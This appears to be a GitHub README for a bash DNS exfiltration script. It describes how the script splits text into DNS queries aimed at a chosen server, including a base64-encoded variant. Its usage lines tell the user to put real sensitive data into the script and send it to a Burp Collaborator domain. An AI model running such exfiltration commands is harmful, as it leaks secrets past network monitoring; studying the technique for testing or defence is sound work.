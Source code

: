 # DNS Text Sender Script

This bash script allows you to send the contents of a text variable using the DNS protocol. The text is broken into chunks and embedded into the DNS query field. If the text is too long for the maximum payload size, it is broken into multiple packets. The script allows you to specify the destination DNS server and sends the text 10 times in a row.

## Prerequisites

Ensure you have `dig` installed on your system. You can install it using your package manager if it's not already installed:

- Debian-based systems:
  ```sh
  sudo apt-get install dnsutils

- Red Hat systems:
  ```sh
  sudo yum install bind-utils

## Usage

  ```sh
  chmod +x dnsexfil.sh
  ./dnsexfil.sh "Your text to send" dns.server.address

  sudo tcpdump -i eth0 udp port 53 -vvv

dnsexfil2.sh is a base64 encoded version of the dnsexfil.sh script.

 ## Usage for dnsexfil2.sh
Replace "SensitiveData" with your actual sensitive data.
Replace "your-collaborator-domain.burpcollaborator.net" with your Burp Collaborator domain.
Make the script executable (chmod +x script_name.sh) and run it (./script_name.sh).



